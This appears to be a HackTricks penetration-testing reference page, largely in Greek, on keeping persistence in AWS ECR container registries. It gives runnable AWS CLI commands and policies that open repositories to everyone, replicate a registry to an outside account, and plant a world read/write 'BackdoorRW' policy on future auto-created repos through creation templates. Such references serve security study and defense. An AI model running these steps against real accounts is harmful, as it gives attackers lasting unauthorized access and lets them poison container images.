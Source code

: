 # AWS - ECR Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## ECR

Για περισσότερες πληροφορίες δείτε:

{{#ref}}
../../aws-services/aws-ecr-enum.md
{{#endref}}

### Κρυμμένη Docker Image με Malicious Code

Ένας attacker θα μπορούσε να **upload a Docker image containing malicious code** σε ένα ECR repository και να το χρησιμοποιήσει για να διατηρήσει persistence στον στοχευμένο AWS account. Στη συνέχεια, ο attacker θα μπορούσε να αναπτύξει το malicious image σε διάφορες υπηρεσίες εντός του account, όπως Amazon ECS ή EKS, με stealthy τρόπο.

### Repository Policy

Προσθέστε μια πολιτική σε ένα μεμονωμένο repository που παραχωρεί σε εσάς (ή σε όλους) πρόσβαση στο repository:
```bash
aws ecr set-repository-policy \
--repository-name cluster-autoscaler \
--policy-text file:///tmp/my-policy.json

# With a .json such as

{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
> [!WARNING]
> Σημειώστε ότι το ECR απαιτεί οι χρήστες να έχουν **άδεια** να πραγματοποιούν κλήσεις στο API **`ecr:GetAuthorizationToken`** μέσω μιας IAM policy **προτού να μπορέσουν να πιστοποιηθούν** σε ένα registry και να κάνουν push ή pull οποιεσδήποτε εικόνες από οποιοδήποτε Amazon ECR repository.

### Πολιτική μητρώου & Cross-account Replication

Είναι δυνατόν να αναπαραγάγετε αυτόματα ένα registry σε έναν εξωτερικό λογαριασμό ρυθμίζοντας cross-account replication, όπου χρειάζεται να **δηλώσετε τον εξωτερικό λογαριασμό** στον οποίο θέλετε να αναπαραγάγετε το registry.

<figure><img src="../../../images/image (79).png" alt=""><figcaption></figcaption></figure>

Πρώτα, πρέπει να δώσετε στον εξωτερικό λογαριασμό πρόσβαση στο registry με μια **registry policy** όπως:
```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
"Sid": "asdasd",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::947247140022:root"
},
"Action": [
"ecr:CreateRepository",
"ecr:ReplicateImage"
],
"Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```
Στη συνέχεια, εφαρμόστε τη διαμόρφωση replication:
```bash
aws ecr put-replication-configuration \
--replication-configuration file://replication-settings.json \
--region us-west-2

# Having the .json a content such as:
{
"rules": [{
"destinations": [{
"region": "destination_region",
"registryId": "destination_accountId"
}],
"repositoryFilters": [{
"filter": "repository_prefix_name",
"filterType": "PREFIX_MATCH"
}]
}]
}
```
### Repository Creation Templates (prefix backdoor για μελλοντικά repos)

Καταχρησιμοποιήστε τα ECR Repository Creation Templates για να τοποθετήσετε αυτόματα backdoor σε οποιοδήποτε repository που το ECR δημιουργεί αυτόματα κάτω από ένα ελεγχόμενο prefix (για παράδειγμα μέσω Pull-Through Cache ή Create-on-Push). Αυτό παρέχει μόνιμη μη εξουσιοδοτημένη πρόσβαση σε μελλοντικά repos χωρίς να αγγίζονται τα υπάρχοντα.

- Απαιτούμενα perms: ecr:CreateRepositoryCreationTemplate, ecr:DescribeRepositoryCreationTemplates, ecr:UpdateRepositoryCreationTemplate, ecr:DeleteRepositoryCreationTemplate, ecr:SetRepositoryPolicy (used by the template), iam:PassRole (if a custom role is attached to the template).
- Επίπτωση: Οποιοδήποτε νέο repository δημιουργείται υπό το στοχευμένο prefix κληρονομεί αυτόματα μια attacker-controlled repository policy (π.χ. cross-account read/write), tag mutability, και scanning defaults.

<details>
<summary>Τοποθέτηση backdoor σε μελλοντικά PTC-created repos κάτω από επιλεγμένο prefix</summary>
```bash
# Region
REGION=us-east-1

# 1) Prepare permissive repository policy (example grants everyone RW)
cat > /tmp/repo_backdoor_policy.json <<'JSON'
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "BackdoorRW",
"Effect": "Allow",
"Principal": {"AWS": "*"},
"Action": [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer",
"ecr:InitiateLayerUpload",
"ecr:UploadLayerPart",
"ecr:CompleteLayerUpload",
"ecr:PutImage"
]
}
]
}
JSON

# 2) Create a Repository Creation Template for prefix "ptc2" applied to PULL_THROUGH_CACHE
aws ecr create-repository-creation-template   --region $REGION   --prefix ptc2   --applied-for PULL_THROUGH_CACHE   --image-tag-mutability MUTABLE   --repository-policy file:///tmp/repo_backdoor_policy.json

# 3) Create a Pull-Through Cache rule that will auto-create repos under that prefix
#    This example caches from Amazon ECR Public namespace "nginx"
aws ecr create-pull-through-cache-rule   --region $REGION   --ecr-repository-prefix ptc2   --upstream-registry ecr-public   --upstream-registry-url public.ecr.aws   --upstream-repository-prefix nginx

# 4) Trigger auto-creation by pulling a new path once (creates repo ptc2/nginx)
acct=$(aws sts get-caller-identity --query Account --output text)
aws ecr get-login-password --region $REGION | docker login --username AWS --password-stdin ${acct}.dkr.ecr.${REGION}.amazonaws.com

docker pull ${acct}.dkr.ecr.${REGION}.amazonaws.com/ptc2/nginx:latest

# 5) Validate the backdoor policy was applied on the newly created repository
aws ecr get-repository-policy --region $REGION --repository-name ptc2/nginx --query policyText --output text | jq .
```
</details>

{{#include ../../../../banners/hacktricks-training.md}}

